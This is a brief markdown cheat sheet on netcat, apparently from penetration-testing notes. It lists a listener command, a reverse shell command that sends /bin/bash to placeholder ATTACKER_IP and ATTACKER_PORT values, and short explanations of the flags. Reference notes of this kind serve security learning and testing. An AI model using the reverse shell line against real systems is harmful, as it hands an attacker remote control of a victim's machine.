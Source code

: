 ```yaml
---
title: NETCAT
---
```


## NETCAT Listener


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on port 2112

## NETCAT REverse Shell


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

## NETCAT Flags


 > 
 > **<font color=red>-l</font>**</br>
 > Listener mode.
 > 
 > **<font color=red>-n</font>**</br>
 > No DNS.
 > 
 > **<font color=red>-v</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-p</font> 2112**</br>
 > Port.
